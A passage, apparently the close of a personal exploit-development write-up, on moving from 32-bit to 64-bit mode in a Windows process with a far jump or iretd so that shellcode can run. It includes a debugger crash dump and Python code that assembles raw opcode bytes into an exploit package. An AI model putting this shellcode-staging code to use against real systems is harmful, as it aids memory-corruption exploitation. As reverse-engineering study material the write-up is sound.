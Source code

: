 Then, I can use the `far jump` to go back to 64-bit mode and execute my shellcode or use the iret instruction again to return to 64-bit mode, but it's important to fix the stack segment selector before.

```
0:000> g;r
(7860.3ea4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000001 ebx=10000000 ecx=c817f888 edx=00000000 esi=00000000 edi=1684c220
eip=10000001 esp=10000800 ebp=00000000 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=0053  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
10000001 c74424102b000000 mov     dword ptr [esp+10h],2Bh ss:0053:10000810=????????
```

To fix the SS register, only need to move the value `0x2b` to SS and then I can switch to 64-bit.

```python
ctx_switch_32to64_jmp = [
	# jmp far 033:address
	b'\xea',          # jmp far
	p32(0x10000000),  # address
	b'\x33\x00'       # CS
]
ctx_switch_32to64_jmp[1] = p32(0x10000000 + 
                len(b''.join(ctx_switch_64to32)) +
                len(b''.join(ctx_switch_32to64_jmp))
								)

ctx_switch_32to64_iret = [
	##### x86

	# fix stack segment
	b'\xb8' + p32(0x2b), # mov eax, 2bh
	b'\x8e\xd0',         # mov ss, ax
	b'\x90',             # nop
	
	b'\x6a\x2b',         # push 2bh
	b'\x68' + p32(0x10000000 + 0x800), # push 1000800h
	b'\x68' + p32(0x246), # push 46h -> EFLAGS
	b'\x6a\x33',          # push 33h -> CS
	b'\xe8' + p32(0),     # call $+5
	b'\x83\x04\x24\x05',  # add dword ptr [esp], 5 -> EIP: jump to fix_stack_addr
	b'\xcf',              # iretd

]

pkg += b''.join(ctx_switch_32to64_jmp) if USE_JMPFAR else b''.join(ctx_switch_32to64_iret)

```

And that's it. I really enjoy this, because I needed to read the AMD/Intel manuals as my beggenings in RE. You can found my full exploit in my [github][3].


[^1]: Return from Interrupt - AMD64 Architecture Programmer’s Manual, Volume 3: General-Purpose and System Instructions.
[^2]: 3.4.5 Segment Descriptors -  Intel® 64 and IA-32 Architectures SDM